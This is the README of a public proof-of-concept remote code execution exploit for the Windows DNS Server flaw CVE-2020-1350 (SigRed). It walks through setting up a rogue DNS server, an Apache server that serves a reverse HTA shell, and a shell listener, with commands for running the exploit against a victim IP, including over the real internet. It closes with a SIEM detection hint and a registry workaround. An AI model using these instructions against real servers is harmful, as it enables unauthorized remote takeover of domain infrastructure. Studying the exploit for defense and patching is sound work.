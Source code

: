 # PoC Remote Code Execution Exploit for CVE-2020-1350, SigRed.

by: [chompie](https://twitter.com/chompie1337)

***For research purposes only. Use at your own risk.***

## Exploit Writeup

My write up on the construction of this exploit can be found here:

https://chompie.rip/Blog+Posts/Anatomy+of+an+Exploit+-+RCE+with++SIGRed


## Environment Setup

### Lab Environment: Setting a Forwarder

For demo/testing purposes, just set up a conditional forwarder on the victim machine to forward "evil domain" requests to your attacker machine.

Tools -> DNS
![Alt text](images/forward.png?raw=true "Set up a forwarder")
![Alt text](images/ch0mpie.png?raw=true "Forwarding for ch0mpie.com")

### Registering a custom Nameserver

If you are NOT setting a forwarder, i.e. actually registering your attacker machine as a custom name server for your domain and running this over real internet...
***Note: I really don't recommend this and take no responsibility if you do something stupid.***

***This exploit is configured assuming your nameserver is registered as ns1.[yourevildomain]*** 

You need to do the following tweaks to make this work over real internet:

Comment out the line: `os.system('systemctl stop systemd-resolved')` in `evildns.py` 

Follow these instructions to fix your DNS configuration: https://www.linuxuprising.com/2020/07/ubuntu-how-to-free-up-port-53-used-by.html

This is so you can listen on port 53 and still have a DNS server configured.


## Configuring Attacker Machine

On the Linux attacker machine: (I used a base Ubuntu 20.04.1 VM)

`sudo python3 configure.py -ip IP_ATTACKER -p PORT_REVERSE_SHELL -hp PORT_APACHE_SERVER (default 80)`

This configures the Apache server that the victim will download the reverse HTA shell.


## Running the Exploit

`sudo python3 evildns.py` 

Needs sudo to listen on UDP and TCP ports 53

Then run:

`python3 exploit.py -ip WINDNS_VICTIM_IP -d EVIL_DOMAIN`

Set the listener for the reverse shell:

`python3 reverse_shell/server.py -p PORT_REVERSE_SHELL`

HTA shell is modified version of:
https://github.com/freshness79/HTA-Shell

Note that the shell doesn't notify you when there is an incoming connection so you will have to try to type a command. 

## Supported Versions

This has been tested working on Windows Server 2019, 2016, 2012R2, and 2012 (x64 versions). Offsets for some versions of `dns.exe` and `msvcrt.dll` are located in `offsets.py`. This list is incomplete. If the version you are testing fails to find offsets, you can add the mapping there. 

`dns.exe` offset mapping: (last 12bits of the offset for `dns!RR_Free`, `` dns!`string` ``) : (offset of `dns!RR_Free`, `dns!NsecDnsRecordConvert`, `dns!_imp_exit`)
`msvcrt.dll` offset mapping: (last 12 bits of offset for `msvcrt!exit`): (offset of `msvcrt!exit`, offset of `msvcrt!system`)

***Note: In the case of an offset collision, you will have to make a selection of which set of offsets to choose. The DNS service will restart after about 5 minutes up to two times after a crash. You must restart `evildns.py` after each try. The exploit is stable, so the chance of successful "blind" exploitation is high.***

## Detecting Exploitation and Workaround Fix

To implement a rule for your preferred SIEM, look for invalid child processes of dns.exe. Note that isn't the only way this could be exploited, but it would probably detect most exploitation attempts. 

If patching is not possible, a workaround fix is available:
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters" /v "TcpReceivePacketSize" /t REG_DWORD /d 0xFF00 /f
net stop DNS && net start DNS
```
